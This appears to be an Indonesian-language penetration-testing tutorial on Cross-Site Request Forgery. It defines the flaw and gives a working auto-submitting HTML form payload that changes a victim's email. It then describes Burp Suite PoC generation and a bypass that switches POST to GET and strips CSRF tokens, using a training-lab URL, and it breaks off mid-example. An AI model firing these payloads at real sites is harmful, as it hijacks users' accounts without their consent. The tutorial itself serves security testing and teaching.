# Cross-Site Request Forgery (CSRF)
## Definisi

*Cross-Site Request Forgery* atau CSRF merupakan sebuah kerentanan keamanan pada aplikasi web yang membuat penyerang dapat mengarahkan pengguna untuk melakukan beberapa hal yang seharusnya tidak ingin mereka lakukan. 

Berikut merupakan **TIGA** kondisi yang harus ada untuk memungkinkan terjadinya serangan/kerentanan CSRF:

- Terdapat fitur untuk mengganti data diri, seperti **password**, **username**, **profile picture**, dan lain sebagainya yang dapat memungkinkan pengguna ataupun user lain untuk mengganti data sendiri maupun orang lain.
- Terdapat **Cookie** yang digunakan untuk **session handling**, dan tidak terdapat token **anti-csrf**.
- Tidak terdapat parameter yang bisa ditebak oleh penyerang pada **request** yang ada. Sebagai contoh apabila ingin mengganti password, penyerang diharuskan memiliki password yang lama terlebih dahulu. (Validasi Password/ID)

Berikut merupakan **payload** yang bisa dipakai untuk melakukan submit request, apabila payload ini berhasil, maka web tersebut memiliki kerentanan CSRF. 
```markdown
<html>
    <body>
      <form action="https://vulnerable-website.com/email/change" method="POST">
         <input type="hidden" name="email" value="pwned@evil-user.net" />
      </form>
      <script>
          document.forms[0].submit();
      </script>
    </body>
</html>
```

## Pengujian CSRF
### Step Umum:
```markdown
1. Pilih request apapun yang ingin anda uji atau eksploit (saran: Gunakan Burpsuite Professional)
2. Klik kanan pada request tersebut dan klik Engagement Tools / Generate CSRF PoC.
3. Secara otomatis Burpsuite akan membuat payload untuk melakukan serangan CSRF.
4. Anda dapat mengubah payload tersebut sesuai dengan kebutuhan agar bisa berfungsi dengan baik.
5. Copy HTML yang sudah dibuat oleh Burpsuite ke web page, kemudian lihat pada prowser apakah request tersebut dapat mempengaruhi web aslinya (seperti password sudah terganti, dsbnya) atau tidak.
```

### Metode Bypass 1 : mengubah metode *request* `POST` → `GET`

```markdown
Skenario : Validasi terhadap CSRF token bergantung terhadap metode request

1. Lakukan interaksi terhadap beberapa fungsi dan Intercept request yang ada.
2. Kirim request tersebut ke repeater dan klik kanan untuk mengganti metode request-nya.
3. Hapus semua parameter csrf yang ada pada request, lalu klik Generate CSRF PoC.
4. Edit sesuai dengan kebutuhan, sebagai contoh:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
	<form method="GET" action="https://ac591fd21f4ab3d2807a1b1d0007000d.web-security-academy.net:443/email/change-email?email=rad1ly%40hack.com">
```